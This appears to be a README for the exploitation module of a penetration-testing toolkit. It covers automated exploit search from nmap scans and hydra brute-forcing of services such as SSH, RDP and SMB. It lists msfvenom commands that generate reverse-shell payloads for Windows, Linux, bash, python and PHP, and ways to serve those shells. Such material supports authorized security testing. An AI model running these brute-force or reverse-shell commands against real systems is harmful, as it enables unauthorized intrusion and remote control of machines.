 # Exploitation Phase

Definition

Available parts:
- Search Exploits
- Brute Force

## Features

- Automatic Exploit Search: Search exploits from nmap vulnerability scan
- Brute Force most common services:
    - AFP
    - AJP
    - Cassandra
    - CouchDB
    - FTP
    - IMAP
    - IRC
    - ISCSI
    - LDAP
    - Mongo
    - MySQL
    - OracleSQL
    - POP
    - PostgreSQL
    - RDP
    - Redis
    - Rexec
    - Rlogin
    - Rsh
    - Rsync
    - RTSP
    - SNMP
    - SMB
    - SMTP
    - SOCKS
    - MS-SQL Server
    - SSH
    - Telnet
    - VNC


## Usage

1. Copy the `exploitation.conf.dist` file to `exploitation.conf`
```bash
cp exploitation.conf.dist exploitation.conf
```
1. Adjust the conf file to your needs
1. Run the script with following command:
```bash
./exploitation.sh -c exploitation.conf
```

## Results

Results stored to output/ directory.

## Exploit Research

Automatic approach:  
Set SEARCHEXPLOIT variable to true to let the script find exploits from nmap vulners scan from reconnaissance phase.  

Manual approach:  
- searchsploit (local copy of exploit-db)
- metasploit search (msf search)
- sqlmap

### searchsploit  

Examples:  
```bash
searchsploit -u # update local exploit-db
searchsploit openssh -www
searchsploit apache 2.2 | grep -i local
```

### metasploit

Try metasploit (msfconsole) to search for an exploit by a given CVE Number or EDB-ID or by keywords.  
Metasploit search examples:
```bash
msfconsole -x "search cve:2010-2075; exit;" -q
msfconsole -x "search type:exploit platform:linux ftp; exit;" -q
msfconsole -x "search type:exploit platform:windows port:135; exit;" -q
```

## Tools used

All tools used are preinstalled on latest Kali Linux Version 2022.1:  
- nmap
- hydra
- searchsploit

-----

## Additional Information

### Payloads

Creating payloads with MsfVenom:  

```sh
# msfvenom syntax
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport] [more options]

# Examples:
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe    

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > revshell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > revshell.elf

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > revshell.sh

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > revshell.py

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > revshell.php
```


### Reverse Shells

Checkout the following links on Reverse Shells:

- [Reverse Shell Generator](https://www.revshells.com/)
- [Reverse Shell Cheat Sheet @ HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Different Shells @ HackTricks](https://book.hacktricks.xyz/shells/shells)

### Local Web Servers

Need an simple, local web server? These are great for serving up (reverse) shells  

| **Command**                             | **Description**                                                     |
|-----------------------------------------|---------------------------------------------------------------------|
| ```python -m SimpleHTTPServer 8000```   | Run a basic http server with python on port 8000 in this directory  |
| ```python3 -m http.server 8000```       | Same with python3                                                   |
| ```php -S 0.0.0.0:8000```               | Run a basic http server with php on port 8000 in this directory     | 

### SQL Injection

Try [sqlmap](https://github.com/sqlmapproject/sqlmap) to enumerate and inject sql databases.

### Command Injection

Checkout the [commix project](https://github.com/commixproject/commix/wiki/Usage-Examples) for possible command injection examples with commix or for [getting shells with commix](https://github.com/commixproject/commix/wiki/Getting-Shells).
